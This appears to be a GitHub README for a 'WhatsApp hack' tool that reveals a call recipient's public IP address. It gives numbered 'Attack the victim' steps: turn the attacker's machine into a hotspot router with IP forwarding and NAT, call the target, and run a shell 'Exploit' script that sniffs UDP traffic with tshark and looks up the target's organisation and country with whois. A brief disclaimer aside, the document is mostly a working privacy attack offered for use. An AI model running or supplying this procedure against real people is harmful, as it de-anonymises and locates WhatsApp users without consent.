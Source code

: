# New WhatsApp Hack! 
![](https://img.shields.io/github/license/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/issues/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/issues-closed/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/badge/Python-3-blue)
![](https://img.shields.io/github/forks/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/stars/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/last-commit/Sahil2rick/Whatsapp-hack)
![](http://hits.dwyl.com/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/badge/platform-Linux%20%7C%20KaliLinux%20%7C%20ParrotOs-blue)


Public IP from victim caller.

This program is for Educational purpose ONLY. Do not use it without permission. I am not responsible for any of your actions. Use this tool with caution.

## Attack the victim ##

## Install hotspotd with these steps:
```
wget https://github.com/prahladyeri/hotspotd/raw/master/dist/hotspotd-latest.tar.gz
tar xvf hotspotd-latest.tar.gz
cd hotspotd-0.1.6/
sudo python setup.py install
```

- Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID
```
sudo hotspotd start
```
- Step 2: Run the following commands:
 ```
 echo 1 > /proc/sys/net/ipv4/ip_forward
 iptables -t nat -I POSTROUTING -j MASQUERADE
 ```
- Step 3: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone
- Step 4: Call any whatsapp user randomly to capture the server IP addresses to filter
- Step 5: Call victim on his whatsapp
- Step 6: Disconnect the call once established
- Step 7: Script will reveal the public IP address of the target
- Step 8: Validate the public IP address on target phone

# Exploit

```
#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line 
do 
	whois $line > /tmp/b

	filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

	if [ "$filter" -gt 0 ] ; then 
		targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"` 
		echo $line --- $targetinfo 
	fi 
done


```
